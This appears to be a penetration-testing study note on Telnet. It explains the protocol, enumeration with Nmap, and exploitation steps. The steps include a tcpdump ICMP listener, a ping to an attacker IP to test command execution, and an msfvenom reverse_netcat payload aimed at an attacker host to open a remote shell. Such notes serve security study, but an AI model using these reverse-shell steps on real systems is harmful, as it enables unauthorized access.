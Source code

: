 ```yaml
---
tags:
  - Penetration-Testing
  - Services
---
```

## What is Telnet?
An application protocol which allows you, with the use of a **telnet client**, to connect to and execute commands on a remote machine that is hosting a **telnet server.**
- Client establishes connection with server. Client will then become virtual terminal, allowing interaction with remote host.
- Telnet sends messages in **clear text** without any security measures.
```bash
telnet [ip] [port]
```
### Telnet has slowly been phased out in favor of SSH

## Enumerating Telnet
- **Begin with [[Penetration Testing/Nmap|Nmap]] 
- Attempt to connect to Telnet port as client to enumerate.

## Exploiting Telnet
- Attempt to run commands using Telnet session.

### TCPdump
If no command execution, set tcpdump listener on attacker machine to catch icmp and attempt to ping it from Telnet.
```bash
sudo tcpdump ip proto \\icmp -i [socket of local IP, ie tun0]
```

From Telnet session, attempt to ping attacker IP to determine if Telnet is able to run system commands.
```bash
.RUN ping [attacker IP] -c 1
```
- if ping is received, Telnet is able to run system commands.

### Msfvenom
Use msfvenome to craft payload for rev shell using netcat
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[attacker ip] lport=4444 R
```
- Set listener of attack machine
- Copy generated payload into Telnet to obtain shell.